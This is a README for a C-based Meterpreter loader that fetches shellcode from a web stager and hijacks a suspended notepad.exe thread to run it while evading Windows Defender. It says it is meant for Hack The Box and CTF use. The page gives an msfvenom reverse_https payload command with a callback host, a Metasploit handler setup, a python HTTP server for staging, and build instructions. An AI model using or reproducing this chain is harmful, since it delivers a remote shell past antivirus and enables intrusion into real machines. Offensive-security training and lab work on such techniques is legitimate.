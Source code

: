 # 🎯 Meterpreter Payload exectuion

A lightweight Windows C application developed using **Visual Studio**. The purpose of this porject is to have a Meterpreter payload execute with Defender on. This approach will bypass defender but some of the functionalilties in a Meterpreter payload will still be flagged. The purpose of this was to use this on harder Hack The Box machines that may have defender enabled. This spolution is a output of MALDEV Academy, it has been a great course and helped me build this up to this point. 

---
⚠️ **Disclaimer:** This project is for educational purposes only. It is designed to help individuals understand how malware operates so they can better defend against it. Its intended purpose is for Hack the Box or CTF-like events. 

## Approach

- Utilize a web stager to host the raw Meterpreter Binary. This fecthes the shell code at runtime and will avoid some common signtures by not storing the shell code on disk.
- I then create a suspended process "Notepad.exe" and then hijack a thread of that process to execute the shell code

## 📦 Features

- Built using **pure C** and Windows **Win32 API**
- Visual Studio Project 
- Clone the repo build, and follow the steps below

---

## 🚀 Getting Started

This is designed to be a web cradle. This exe will fetch your payload at run time then call back with a Meterpreter payload on a different port. Steps below are for setup


### 🌱 Kali setup

1. Build the Payload 
``` bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.216.130 LPORT=8000 -f raw exitfunc=process --bad-chars '\x00' -o Meterpreter_Payload
# Change the LHOST and PORT for you local machine that is hosting metasploit
```

2. Open Metasploit


 ```bash
# in a different terminal setup metaploit below
msfconsole
use multi/handler
#set the lhost, lport, and payload to match the command above
 ```
3. setup the python server

``` bash
# in the same directory as the paylaod and a differnt terminal as Metasploit run the following commands
python3 -m http.server 8080
``` 

4. Below is a screenshot of what your terminal should look like

![alt text](image.png)


### 🛠️ Build Instructions

1. Clone the repository:
    ```bash
    git clone https://github.com/yourusername/yourproject.git
    cd yourproject
    ```

2. Open the `.sln` file in **Visual Studio**

    - Change the IP and Port for you kali machine. Make sure the port used is the one hosting the python server

3. Build the project:
    - Select **Build > Build Solution** (or press `Ctrl+Shift+B`)
    - Set build mode to `Debug` or `Release`

4. Run the executable from Visual Studio

---

## 🧪 Usage

Example usage (from `main()`):

```c
int pid = 0;
ProcessEnumeration(L"notepad.exe", &dwPID, &hProcess, &pid);
printf("Found PID: %d\n", pid);
